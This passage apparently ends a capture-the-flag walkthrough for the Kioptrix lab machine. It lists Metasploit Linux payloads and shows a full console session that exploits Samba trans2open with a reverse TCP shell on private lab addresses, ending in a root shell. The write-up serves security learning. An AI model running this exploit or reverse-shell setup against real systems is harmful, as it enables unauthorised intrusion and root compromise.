   9   linux/x86/meterpreter/bind_ipv6_tcp_uuid                   manual  No     Linux Mettle x86, Bind IPv6 TCP Stager with UUID Support (Linux x86)
   10  linux/x86/meterpreter/bind_nonx_tcp                        manual  No     Linux Mettle x86, Bind TCP Stager
   11  linux/x86/meterpreter/bind_tcp                             manual  No     Linux Mettle x86, Bind TCP Stager (Linux x86)
   12  linux/x86/meterpreter/bind_tcp_uuid                        manual  No     Linux Mettle x86, Bind TCP Stager with UUID Support (Linux x86)
   13  linux/x86/meterpreter/reverse_ipv6_tcp                     manual  No     Linux Mettle x86, Reverse TCP Stager (IPv6)
   14  linux/x86/meterpreter/reverse_nonx_tcp                     manual  No     Linux Mettle x86, Reverse TCP Stager
   15  linux/x86/meterpreter/reverse_tcp                          manual  No     Linux Mettle x86, Reverse TCP Stager
   16  linux/x86/meterpreter/reverse_tcp_uuid                     manual  No     Linux Mettle x86, Reverse TCP Stager
   17  linux/x86/metsvc_bind_tcp                                  manual  No     Linux Meterpreter Service, Bind TCP
   18  linux/x86/metsvc_reverse_tcp                               manual  No     Linux Meterpreter Service, Reverse TCP Inline
   19  linux/x86/read_file                                        manual  No     Linux Read File
   20  linux/x86/shell/bind_ipv6_tcp                              manual  No     Linux Command Shell, Bind IPv6 TCP Stager (Linux x86)
   21  linux/x86/shell/bind_ipv6_tcp_uuid                         manual  No     Linux Command Shell, Bind IPv6 TCP Stager with UUID Support (Linux x86)
   22  linux/x86/shell/bind_nonx_tcp                              manual  No     Linux Command Shell, Bind TCP Stager
   23  linux/x86/shell/bind_tcp                                   manual  No     Linux Command Shell, Bind TCP Stager (Linux x86)
   24  linux/x86/shell/bind_tcp_uuid                              manual  No     Linux Command Shell, Bind TCP Stager with UUID Support (Linux x86)
   25  linux/x86/shell/reverse_ipv6_tcp                           manual  No     Linux Command Shell, Reverse TCP Stager (IPv6)
   26  linux/x86/shell/reverse_nonx_tcp                           manual  No     Linux Command Shell, Reverse TCP Stager
   27  linux/x86/shell/reverse_tcp                                manual  No     Linux Command Shell, Reverse TCP Stager
   28  linux/x86/shell/reverse_tcp_uuid                           manual  No     Linux Command Shell, Reverse TCP Stager
   29  linux/x86/shell_bind_ipv6_tcp                              manual  No     Linux Command Shell, Bind TCP Inline (IPv6)
   30  linux/x86/shell_bind_tcp                                   manual  No     Linux Command Shell, Bind TCP Inline
   31  linux/x86/shell_bind_tcp_random_port                       manual  No     Linux Command Shell, Bind TCP Random Port Inline
   32  linux/x86/shell_reverse_tcp                                manual  No     Linux Command Shell, Reverse TCP Inline
   33  linux/x86/shell_reverse_tcp_ipv6                           manual  No     Linux Command Shell, Reverse TCP Inline (IPv6)

<b>msf5 exploit(linux/samba/trans2open) ></b> set payload linux/x86/shell_reverse_tcp
payload => linux/x86/shell_reverse_tcp
<b>msf5 exploit(linux/samba/trans2open) ></b> show options

Module options (exploit/linux/samba/trans2open):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  192.168.222.130  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Payload options (linux/x86/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD    /bin/sh          yes       The command string to execute
   LHOST  192.168.222.129  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


<b>msf5 exploit(linux/samba/trans2open) ></b> run

[*] Started reverse TCP handler on 192.168.222.129:4444 
[*] 192.168.222.130:139 - Trying return address 0xbffffdfc...
[*] 192.168.222.130:139 - Trying return address 0xbffffcfc...
[*] 192.168.222.130:139 - Trying return address 0xbffffbfc...
[*] 192.168.222.130:139 - Trying return address 0xbffffafc...
[*] Command shell session 5 opened (192.168.222.129:4444 -> 192.168.222.130:1030) at 2020-12-08 10:22:39 -0500

<p style="color:#05c820">
whoami
root
pwd
/tmp
</p>
<br>
</pre>
</details>

Set the necessary options, and run the exploit!
Congrats Matey! You are now root. Hope you enjoyed the first machine of K1optr1x series! 



[1]: https://i.imgur.com/4VJ39cH.png
[2]: https://i.imgur.com/O13Jjr0.png
[3]: https://i.imgur.com/9gwmLN0.png
[4]: https://i.imgur.com/HEWW8uU.png